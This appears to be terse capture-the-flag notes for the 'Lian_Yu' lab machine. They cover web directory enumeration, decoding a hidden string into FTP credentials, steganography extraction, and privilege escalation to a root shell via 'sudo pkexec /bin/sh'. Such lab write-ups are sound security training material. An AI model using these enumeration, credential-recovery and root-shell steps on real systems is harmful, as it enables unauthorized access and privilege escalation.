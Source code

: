# Lian_Yu
```
export_IP = 10.10.93.97
```

#### Web Enum
```
WORD_LIST = dirbuster-medium-2.3.txt
Enum TOOL = ffuf, gobuster

[Step. 1] : /island
-> vigilante

[Step. 2] : /island/2100

[Step. 3] : /island/2100/green_arrow.ticket
-> RTy8yhBQdscX
```

#### FTP Enum
```
RTy8yhBQdscX -> Base 58 Decode -> !#th3h00d
FTP Credential :  (vigilante,!#th3h00d)
```


#### SSH Enum
```
1. Login Id -> FTP Get
2. Login Password -> aa.zip 
 -> PNG Header Edit file :  Leave_me_alone.png
 -> steghide extract -sf aa.jpg 
```


#### Privilege Escalate
```
$ sudo -l
$ sudo /usr/bin/pkexec /bin/sh
```